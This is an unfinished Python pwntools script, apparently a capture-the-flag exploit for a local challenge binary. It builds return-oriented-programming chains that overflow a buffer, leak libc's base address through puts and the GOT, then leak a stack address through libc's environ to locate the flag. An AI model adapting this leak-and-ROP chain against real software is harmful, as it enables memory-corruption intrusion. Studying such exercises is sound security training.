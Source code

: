 ```python

context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter('ignore')


def main(): 
    elf = ELF(BINARY)
    libc = ELF(LIBC)
    # TODO: leak stack address via the printf, and restart the program
    elf_puts = elf.symbols['puts']
    elf_start = elf.symbols['_start']
    elf_puts_got = elf.got['puts']
    libc_environ = libc.symbols['environ']
    libc_puts = libc.symbols['puts']

    rop = ROP(BINARY)
    pop_rdi_ret = rop.find_gadget(['pop rdi']).address
    pop_rsi_ret = rop.find_gadget(['pop rsi']).address
    pop_rax_ret = rop.find_gadget(['pop rax']).address
    syscall_ret = rop.find_gadget(['syscall']).address
    leave_ret = rop.find_gadget(['leave']).address
    # interesting gadget - lea esp, [rbp - 0x18] ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret

    for delta in range(-0x50, 0x50, 8):
        delta = 0
        # p = gdb.debug(BINARY, GDB_SCRIPT)
        p = process(BINARY)

        # PHASE 1 - leak libc address via puts
        buf_1 = b'A' * (104 + delta)
        buf_1 += p64(pop_rdi_ret)
        buf_1 += p64(elf_puts_got)
        buf_1 += p64(elf_puts)  # Call puts(puts_got) - leaking its libc address
        buf_1 += p64(elf_start)
        p.send(buf_1)
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')  # TODO: check this on real exploit mode
        puts_addr_bytes = p.recv(6)
        
        puts_addr = int.from_bytes(puts_addr_bytes, "little")
        libc_base = puts_addr - libc_puts
        assert(libc_base & 0xfff == 0)
        libc_environ_addr = libc_base + libc_environ
        print(f'libc_environ_addr:{hex(libc_environ_addr)} libc_addr:{hex(libc_base)}')

        # PHASE 2 - using libc's environ, get a stack address
        buf_2 = b'A' * (104 + delta)
        buf_2 += p64(pop_rdi_ret)
        buf_2 += p64(libc_environ_addr)
        buf_2 += p64(elf_puts)  # Call puts(libc_environ) - leaking its libc address
        buf_2 += p64(elf_start)
        p.send(buf_2)
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')
        environ_bytes = p.recv(6)
        elf_environ_addr = int.from_bytes(environ_bytes, "little")
        print(f'elf_environ_addr:{hex(elf_environ_addr)}')

        input_addr = elf_environ_addr - 648
        flag_addr = input_addr + 0x100
        
```